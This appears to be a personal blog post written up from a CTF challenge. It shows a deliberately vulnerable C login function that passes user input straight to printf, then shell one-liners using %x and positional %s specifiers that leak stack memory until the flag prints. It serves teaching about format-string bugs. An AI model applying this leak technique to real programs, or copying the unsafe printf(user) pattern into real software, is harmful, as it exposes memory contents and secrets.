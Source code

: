 ```yaml
---
layout: post
title: "How printf can be exploited"
description:  "Exploiting printf with a custom address memory while competing a C-WARS CTF"
date:   2020-05-15 11:40:15 +0200
keywords:
  - printf
  - ctf

---
```


Last night I was watching a interesting presentation from [0xff][0xff] about [Security applications of language technology][video] and the sponsors were inviting people to compete on the CTF.

The level two had a interesting challenge: with a user input for login, can you access the flag, which as a variable inside that function? 

The code looks like this

{% highlight c%}
#include<stdio.h>
#include<stdlib.h>

int login(char *flag) {
	char user[10];
	read(0, user, sizeof user);
	printf(user);
	printf("\n");
	return 0;
}

int main(int argc, char *argv[]){

	char flag[10] = "FLAG{HÄR}";
	return login(flag);
}
{% endhighlight %}


And the trouble is spotted when we compile this code:

{% highlight bash%}
$ gcc test.c
test.c:7:2: warning: implicit declaration of function 'read' is invalid in C99
      [-Wimplicit-function-declaration]
        read(0, user, sizeof user);
        ^
test.c:8:9: warning: format string is not a string literal (potentially insecure)
      [-Wformat-security]
        printf(user);
               ^~~~
test.c:8:9: note: treat the string as an argument to avoid this
        printf(user);
               ^
               "%s",
2 warnings generated.
{% endhighlight %}


So, let's start trying to search the addresses available, for this we need to send the caracter %x:

{% highlight bash%}
python -c "print('%x '*10)" | ./a.out
ef1c995e 0 6f68d81e
{% endhighlight %}


Now, let's try to get the values from another format string:

{% highlight bash %}
$ for i in $(seq 10); do echo '%'$i'$s' | ./a.out; done
%1$s
��
��
(null)
��
H���

��
(null)
��
(null)
��
(null)
��
FLAG{HÄR}
         ��
{% endhighlight %}



[0xff]: https://0xff.se/
[cwars]: https://c-wars.acnr.se/
[video]: https://www.youtube.com/watch?v=Odz-jPE7DQ0
